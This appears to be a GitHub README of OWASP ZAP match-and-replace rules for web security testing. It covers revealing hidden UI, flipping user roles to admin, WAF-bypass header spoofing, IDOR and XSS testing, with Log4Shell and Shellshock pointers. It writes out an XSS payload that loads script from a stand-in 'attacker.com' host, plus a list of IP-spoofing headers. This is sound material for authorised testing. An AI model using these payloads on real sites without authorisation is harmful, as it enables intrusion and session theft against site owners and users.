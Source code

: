 # Match and Replace ZAP

Useful Match and Replace ZAP rules.

Inspired by: https://github.com/daffainfo/match-replace-burp

## Finding hidden buttons, forms, and other UI elements

Many sites contain hidden UI elements such as:

```html
<div aria-hidden="true"></div>
<div style="visibility: hidden;"></div>
<div style="display: none;"></div>
<script>document.getElementbyTagName("test").hidden=true</script>
<button type="button" disabled>test</button>
```

In ZAP these can be Revealed with standard functionality: <https://www.zaproxy.org/docs/desktop/addons/reveal/>, however should that not accommodate a particular bit of code/functionality you're encountering a Replacer rule can be leveraged to un-hide or re-enable the component.

- Show Hidden UI

![](images/show-hidden-1.png)

- Show display:none UI

![](images/show-hidden-2.png)

- Change disable to enable

![](images/show-hidden-3.png)

## Changing false to true

Sometimes it is possible to un-hide or re-enable functionality or UI components by simply changing `false` to `true`.
Here are some example scenarios:

- Changing role from normal user to admin

![](images/false-true-admin.png)

- Set email verified

![](images/false-true-email.png)

## Bypass WAF

Bypassing WAF by adding some request headers.

- Adding `X-Forwarded-Host: 127.0.0.1`

![](images/bypass-waf.png)

Other request headers/values which may assist in bypassing WAFs include (but are not limited to):

```text
X-Forwarded-Port: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Origin: null
Origin: Domain.attacker.com
```

Note: Adding multiple headers might be easier with a:
- [Proxy Script](https://github.com/zaproxy/community-scripts/blob/main/proxy/WAF_Bypass.js)
or
- [HttpSender Script](https://github.com/zaproxy/community-scripts/tree/main/httpsender)

## Finding IDOR

For example changing a known UUID to another value:

![](images/finding-idor.png)

## Finding XSS

- Finding XSS on `Referer`

![](images/finding-xss-referer.png)

- Automatically replace user input with an XSS payload

![](images/finding-xss-user.png)

So by just inputting the string `xss_payload` on the website it will be immediately replaced with `"><script src=https://attacker.com></script>`.
Change the XSS payload as you see fit.

## Misc

- Help companies to identify your traffic and separate it from malicious traffic by adding a custom header

![](images/hackerone-header.png)

- Setting the `User-Agent` (UA) or emulating a mobile browser.

In ZAP the User-Agent request header is controlled via Connection options. However, if you wanted to emulate a mobile browser in order to see the mobile UI of a target or perhaps discover some different functionality or behavior. You could change it to a Mobile UA: https://www.zaproxy.org/docs/desktop/addons/network/options/connection/#default-user-agent

For example: `Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1`

<https://www.whatismybrowser.com/guides/the-latest-user-agent/> is a good source for up-to-date User-Agent strings.

This could also be done with a Replacer rule.

![](images/emulate-ios.png)

- Finding [CVE-2021-44228](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)

![](images/log4shell.png)

- Replace User-Agent with shellshock attack [CVE-2014-6271](https://github.com/advisories/GHSA-6hfc-grwp-2p9c)

![](images/shellshock.png)
